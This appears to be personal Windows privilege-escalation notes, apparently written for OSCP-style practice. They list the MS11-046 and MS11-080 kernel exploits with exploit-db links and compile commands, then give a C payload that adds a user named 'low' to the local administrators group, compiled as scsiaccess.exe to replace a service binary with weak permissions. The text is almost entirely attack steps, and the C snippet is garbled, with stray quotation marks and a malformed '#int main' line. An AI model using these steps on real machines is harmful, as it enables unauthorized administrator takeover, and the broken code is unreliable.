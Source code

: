# Windows Privilage Escalation
------------------------------------

MS11-046 "afd.sys" 
---------------------------------------
Supported Versions: xp-win7

https://www.exploit-db.com/exploits/40564

Complie it using the following command:
------

i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 

--------------------------------------
MS11-080 "afd.sys"
---------------------------------------
Supported Versions: xp/2003

https://www.exploit-db.com/exploits/18176

Run it on the client machine.

python pyinstaller.py --onefile ms11-080.py (on windows!)

** I already compiled the exploit and uploaded it to my private repo on "https://www.github.com/NetanelShoshan/OSCP" 

--------------------------------------
Incorrect File and Service permissions:
---------------------------------------
useradd.c

"include <stdlib.h>
"/* system, NULL, EXIT_FAILURE */
"#int main ()
"{
"int i;
"i=system ("net localgroup administrators low /add");
"return 0;
"}
Compile the code above using the following command:
----
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
--------------------------------------



